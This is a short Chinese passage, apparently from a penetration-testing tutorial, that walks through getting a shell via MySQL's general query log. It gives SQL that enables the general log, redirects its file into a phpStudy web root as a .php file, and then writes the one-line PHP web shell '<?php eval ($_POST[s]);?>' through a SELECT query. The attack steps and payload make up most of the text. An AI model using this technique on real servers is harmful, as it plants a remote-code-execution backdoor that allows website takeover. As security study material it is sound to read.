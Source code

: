 全局日志功能关闭，不过可以通过命令开启，并修改日志保存的绝对路径，这里的路径可以在探针页面获得。

探针页面得到路径位置：

![image-20240306100454213](image/image-20240306100454213.png)

```sql
SET GLOBAL general_log = ON;# 开启日志
SET GLOBAL general_log_file = 'C:/phpstudy/WWW/test.php';# 设置日志位置为网站目录
```

![image-20231228215526439](image/image-20231228215526439.png)

更改成功，接着向日志文件写shell

```sql
select '<?php eval ($_POST[s]);?>'
```
